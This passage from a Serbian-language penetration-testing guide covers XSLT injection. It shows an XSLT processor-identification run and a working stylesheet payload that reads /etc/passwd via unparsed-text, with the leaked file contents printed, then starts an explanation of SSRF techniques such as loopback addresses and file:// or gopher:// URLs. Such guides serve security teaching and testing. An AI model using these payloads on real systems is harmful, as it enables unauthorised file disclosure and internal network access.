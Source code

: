 I izvršite

```xml
$saxonb-xslt -xsl:detection.xsl xml.xml

Warning: at xsl:stylesheet on line 2 column 80 of detection.xsl:
Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<h2>XSLT identification</h2><b>Version:</b>2.0<br><b>Vendor:</b>SAXON 9.1.0.8 from Saxonica<br><b>Vendor URL:</b>http://www.saxonica.com/<br>
```

### Čitanje lokalne datoteke

{% code title="read.xsl" %}
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```
{% endcode %}

```xml
$ saxonb-xslt -xsl:read.xsl xml.xml

Warning: at xsl:stylesheet on line 1 column 111 of read.xsl:
Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<?xml version="1.0" encoding="UTF-8"?>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```

### SSRF

Server-Side Request Forgery (SSRF) (Форжиранje zahteva sa servera) je bezbednosna ranjivost koja omogućava napadaču da izvrši zahteve sa servera na druge interne ili eksterne resurse. Ova ranjivost se često koristi za izvršavanje napada kao što su skeniranje mreže, pristup internim servisima ili čak izvršavanje napada na druge sisteme.

SSRF se obično javlja kada aplikacija koristi korisnički unos za formiranje URL-a za zahtev. Napadač može da manipuliše ovim unosom kako bi izvršio zahteve na resurse koji nisu namenjeni javnom pristupu. Na primer, napadač može da izvrši zahtev na interni server ili čak na druge veb aplikacije koje su dostupne na internetu.

Da bi iskoristio SSRF ranjivost, napadač može da koristi različite tehnike, kao što su:

* Korišćenje URL-ova sa lokalnim IP adresama ili privatnim mrežnim adresama.
* Korišćenje URL-ova sa loopback adresom (127.0.0.1) kako bi pristupio lokalnim servisima na serveru.
* Korišćenje URL-ova sa specijalnim oznakama ili protokolima koji omogućavaju pristup drugim resursima, kao što su file:// ili gopher://.

